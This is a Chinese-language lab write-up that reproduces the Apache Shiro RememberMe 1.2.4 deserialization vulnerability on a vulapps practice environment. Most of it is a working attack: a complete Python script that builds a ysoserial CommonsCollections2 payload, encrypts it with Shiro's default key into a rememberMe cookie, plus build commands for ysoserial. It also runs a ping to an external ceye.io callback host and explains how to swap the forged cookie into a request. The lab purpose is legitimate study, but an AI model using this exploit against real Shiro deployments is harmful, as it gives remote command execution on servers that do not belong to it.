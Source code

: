 **Shiro RememberMe 1.2.4 反序列化漏洞详细复现**

medicean/vulapps

描述: medicean/vulapps

题目居然没给cve是啥

只好用xray扫一下= = 

![image-20211029211307392](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211029211307392.png)

# 

dns检测

![image-20211029211647313](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211029211647313.png)

**问题：java反序列化到底是个啥？直接payload说是回到dnslog回显。没了  也没有植入命令栏？**

**那我怎么渗透进去？**

**还是说payload是固定的改不了了  要改的话得重新利用yso啥的构造payload，操作很多，导致这个工具只能使用这一个payload，需要其他插件，才能修改payload。所以这个只起到poc的作用，我猜是这样子的**



手动方法：

1、生成payload的脚本

将下面的脚本保存至本地命名为shiro_poc.py，然后进入linux系统/tmp目录下（如想使用其他KEY，替换脚本中的即可）

不要使用vi/vim命令创建文件再粘贴过去，粘贴会破坏代码的布局格式

命令行输入rz回车，就会跳出文件上传的页面（如果报错，pip安装一下），选择文件上传即可

```
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.5-SNAPSHOT-all.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("/tmp/payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)
```

 2、安装模块

脚本使用的是python3，安装模块时要使用pip3 install 模块名

其中有一个模块需要强调，就是安装pycrypto，用来解决报错No module named Crypto.Cipher

```
pip3 install pycrypto
```

3、ysoserial的jar文件

依次执行以下命令（jar的文件名要和脚本中的一样，文件要和脚本在同一目录下）

```
git　clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -DskipTests
cp target/ysoserial-0.0.5-SNAPSHOT-all.jar /tmp
```

## 0x03 复现过程

在脚本后面输入你想要执行的命令，例：

```
python3 shiro_poc.py "ping fkl2af.ceye.io"
```

然后便会在脚本所在目录下生成文件payload.cookie

![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1579317-20190806234329231-1111194173.png)

 

浏览器打开漏洞环境并登陆进去，点击account page抓包

![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1579317-20190806234508067-1658933664.png)

 

用payload.cookie中内容替换Cookie中的全部内容，Go

![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1579317-20190806234910125-2015955755.png)

 

到ceye平台查看即可到流量记录